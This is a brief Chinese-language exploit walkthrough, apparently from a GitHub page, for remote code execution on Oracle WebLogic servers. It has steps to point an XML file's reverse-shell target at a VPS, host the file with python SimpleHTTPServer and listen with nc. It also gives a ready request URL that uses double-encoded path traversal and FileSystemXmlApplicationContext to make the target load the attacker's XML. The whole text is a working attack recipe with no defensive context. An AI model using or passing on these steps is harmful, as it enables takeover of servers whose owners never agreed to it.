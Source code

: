 修改xml文件中反弹shell地址为vps地址。

![Dingtalk_20220331100053](.\image\Dingtalk_20220331100053.jpg)

将修改后的xml文件上传至vps并利用python开启临时http服务。

vps执行：python -m SimpleHTTPServer 8000

![Dingtalk_20220331100439](.\image\Dingtalk_20220331100439.jpg)

vps开启nc监听。

![Dingtalk_20220331100601](.\image\Dingtalk_20220331100601.jpg)

本机访问如下url发送攻击数据包。

http://目标主机域名或IP:端口/console/css/%252e%252e%252fconsole.portal?nfpb=true&pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://监听IP:监听端口/test.xml")
